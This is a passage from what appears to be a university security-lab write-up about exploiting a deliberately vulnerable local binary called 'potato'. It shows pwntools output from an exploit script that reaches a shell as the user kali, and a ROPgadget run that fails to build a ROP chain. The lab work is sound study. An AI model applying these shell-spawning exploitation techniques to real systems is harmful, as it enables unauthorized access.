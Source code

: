 Executing the script lead to the spawning of a shell with the rights of the programs executor, in this case the user `kali`.

```bash
$ python3 libc.py
[*] '/home/kali/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
[+] Starting local process '/home/kali/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato': pid 205369
[!] ASLR is disabled!
[*] running in new terminal: ['/usr/bin/gdb', '-q', '/home/kali/workspace/ITS_FHCAMPUS/Semester_2/Cyber_Security_ILV/uebung_2/potato', '-p', '205369', '-x', '/tmp/pwnlib-gdbscript-gmf97z_c.gdb']
[+] Waiting for debugger: Done
b'starting up (pid 205369)\nreading file userlist\nhandle_client\ncmd> '
b'Welcome!\nusername: password: searching for user ...\nchecking password ...\nYou are authorized.\n\ncmd> '
[*] Switching to interactive mode
What is the name > Name changed.
$ $ whoami
kali
$ $ id -a
uid=1000(kali) gid=1000(kali) Gruppen=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),101(netdev),116(bluetooth),121(wireshark),123(lpadmin),129(scanner),134(kaboxer)
$ $  
```

### Custom shellcode or ROP chain

To find a ROP chain we can use the ROPGadget Tool again.
For this we can run the following command.

```bash
$ ROPgadget --binary potato--ropchain
[...]

Unique gadgets found: 643

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [-] Can't find the 'mov qword ptr [r64], r64' gadget

```
